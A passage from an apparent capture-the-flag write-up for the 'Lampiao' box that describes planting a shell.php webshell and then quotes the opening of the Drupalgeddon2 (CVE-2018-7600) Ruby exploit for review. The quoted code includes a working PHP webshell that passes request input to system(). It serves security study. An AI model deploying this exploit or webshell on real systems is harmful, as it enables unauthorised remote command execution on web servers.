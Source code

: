`8.` Upload the `shell.php` webshell on the Web root directory.

`9.` You can write the payload on the webserver through HTTP POST request to trigger the `shell.php` webshell.

`10.` Check if the backdoor is successfully written in the web root.

##### Conclusion: This exploit was possible due to the fact that there are some directories in the webserver that are writable to ANY user!

##### Last Question: Why do arbitrary users are allowed to write on the webserver's www-data's directory in the first place?


# Note: Please open issue(s) on my Github page for inaccuracies so I can correct it! Thank you!


### Code Review of Druppalgeddon2.rb Exploit Source Code tailored to the vulnerability Lampiao box has:
```ruby
#!/usr/bin/env ruby
#
# [CVE-2018-7600] Drupal <= 8.5.0 / <= 8.4.5 / <= 8.3.8 / 7.23 <= 7.57 - 'Drupalgeddon2' (SA-CORE-2018-002) ~ https://github.com/dreadlocked/Drupalgeddon2/
#
# Authors:
# - Hans Topo ~ https://github.com/dreadlocked // https://twitter.com/_dreadlocked
# - g0tmi1k   ~ https://blog.g0tmi1k.com/ // https://twitter.com/g0tmi1k
#
# Quick how to use
# def usage()
#   puts 'Usage: ruby drupalggedon2.rb <target> [--authentication] [--verbose]'
#   puts 'Example for target that does not require authentication:'
#   puts '       ruby drupalgeddon2.rb https://example.com'
#   puts 'Example for target that does require authentication:'
#   puts '       ruby drupalgeddon2.rb https://example.com --authentication'
# end

require 'base64'
require 'json'
require 'net/http'
require 'openssl'
require 'readline'
require 'highline/import'


# Settings - Try to write a PHP to the web root?
try_phpshell = true
# Settings - General/Stealth
$useragent = "drupalgeddon2"
webshell = "shell.php"
# Settings - Proxy information (nil to disable)
$proxy_addr = nil
$proxy_port = 8080


# Settings - Payload (we could just be happy without this PHP shell, by using just the OS shell - but this is 'better'!)
bashcmd = "<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }" # this is the webshell's content.
```